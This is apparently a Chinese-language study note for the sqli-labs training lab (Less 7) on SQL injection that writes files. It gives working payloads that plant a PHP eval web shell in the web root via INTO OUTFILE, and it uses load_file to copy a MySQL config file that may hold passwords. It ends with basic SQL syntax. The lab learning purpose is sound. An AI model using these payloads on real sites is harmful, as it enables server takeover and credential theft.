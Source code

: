 

两种利用形式:

- 直接导入文件



```sql
SELECT <?php @eval($_POST('mima'))?> INTO OUFILE "C:\\phpnow\\htdocs\\test.php"
```



- 修改文件结尾



> 参考：[sqlmap os shell解析](http://www.cnblogs.com/lcamry/p/5505110.html)

```sql
# 通常是用'\r\n'结尾，此处我们修改为自己想要的任何文件。0x16可以是一句话或其他任意文件。
SELECT versions() INTO outfile "c:\\phpnow\\htdocs\\test.php" LINES TERMINATED BY 0x16
# Tips
# 1.文件路径可能需要转义，具体看环境。
# 2.当前台无法导出数据的时候，可以尝试如下语句导出得到数据。
SELECT load_file('c:\\wamp\\bin\\mysql\\mysql5.6.17\\my.ini') INTO outfile 'c:\\wamp\\www\\test.php'
# my.ini 当中存在 password 项（不过默认被注释）。
```

### Less 7 Dump into outfile

- 判断闭合方式

`id=1'`回显：near **'**'1'')) LIMIT 0,1 **'** at line 1, 判断闭合方式为`(('$id'))`。

- 测试columns

`ORDER BY 4`回显`You have an error in your SQL syntaxUnknown column '4' in 'order clause'`， 数据列数为3。

- 导入一句话木马

```sql
# @@global.secure_file_priv /var/lib/mysql-files/
UNION SELECT 1,2,'<?php @eval($_POST["code"])?>' INTO outfile "/var/www/sqli_lab/sqli-labs-php7/Less-7/shell.php" --+
```



## 增删改函数介绍

```sql
# INSERT 增加记录
# 单条
INSERT INTO <表名> (字段1, 字段2, ...) VALUES (值1, 值2, ...);
# 多条
INSERT INTO students (class_id, name, gender, score) VALUES
  (1, '大宝', 'M', 87),
  (2, '二宝', 'M', 81);

# UPDATE 修改记录
UPDATE <表名> SET 字段1=值1, 字段2=值2, ... WHERE ...;

#DELETE 删除记录
DELETE FROM <表名> WHERE ...;
```
